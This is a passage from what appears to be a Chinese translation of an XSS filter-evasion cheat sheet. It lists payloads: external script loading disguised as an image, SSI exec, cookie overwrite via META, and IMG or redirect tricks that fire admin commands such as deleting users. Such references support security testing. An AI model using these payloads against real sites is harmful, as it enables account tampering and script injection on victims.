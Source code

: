 ## 简单的修改字符去绕过过滤器对 ".js" 的过滤

你可以重命名你的 javascript 文件为一个图片作为 xss 向量

```
<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
```

## SSI (服务器端包含)

这需要 SSI 被安装在服务器端去使用这个 xss 向量。但可能我并不需要提及这点，因为如果你可以运行命令在服务器端，那么毫无异味会有更加严重的问题存在。

```
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"-->
```

## PHP

需要 php 被安装在服务器端去使用这个 xss 向量。同样的，如果你可以运行恩任何远程脚本，那么将会有更加严重的问题。

```
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

## 嵌入命令的 IMG

它是工作于那些需要用户认证后才可以执行命令的当前域页面。它将可以创建删除用户（如果访问者是管理员），或是寄送某些凭证等等，虽然他是较少被使用但是是非常有用的。

```
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

## 嵌入命令的 IMG II

这是更加的可怕因为并没有特别的标识符去使它看起开来可疑。除非不允许引入第三方域的图片。这个向量是使用一个 302 or 304（或其他可行方案）去重定向一个图片地址为带有某些命令的地址。因此一个正常的图片标签代码 <IMG SRC="a.jpg"> 可以是带有命令的 xss 向量。但是用户看到的仅仅是正常的图片链接地址。下面是一个. htaccess（apche 下）配置文件去完成这个向量。（感谢 Timo 为这部分。）

```
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
```

## Cookie 篡改

这是公认的不着边际，但是我已经发下一个例子是用 <META 去覆盖 cookie。另一个例子是有些网站使用 cookie 中的某些数据去呈现在当前访问者的网页中为仅仅他自己而不是从远程数据库中获取。当这两个清静联系在一起的时候，你可以通过修改 cookie 让 javascript 输入到用户页面中。（你可以借此让用户退出，改变用户的状态，甚至让用户以你的身份登录）

```
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

## UTF-7 编码

如果存在 xss 的页面没有提供页面 charset header，或是对于任何被设为 UTF-7 的浏览器，我们可以利用下面的代码。（感谢 Roman Ivanov 的提供），点击这儿为这个例子。（如果页面设置是自动识别编码且 content-types 没有被覆盖，在 ie 浏览器或使用了 IE 渲染引擎的 Netscape 8.1，咋你不需要声明 charset ）在没有改变编码的情况下它是不能工作在任何现代浏览器，这是为什么它被标记为完全不支持。Watchfire 发现这个漏洞在 Google's 自定义 404 脚本中.
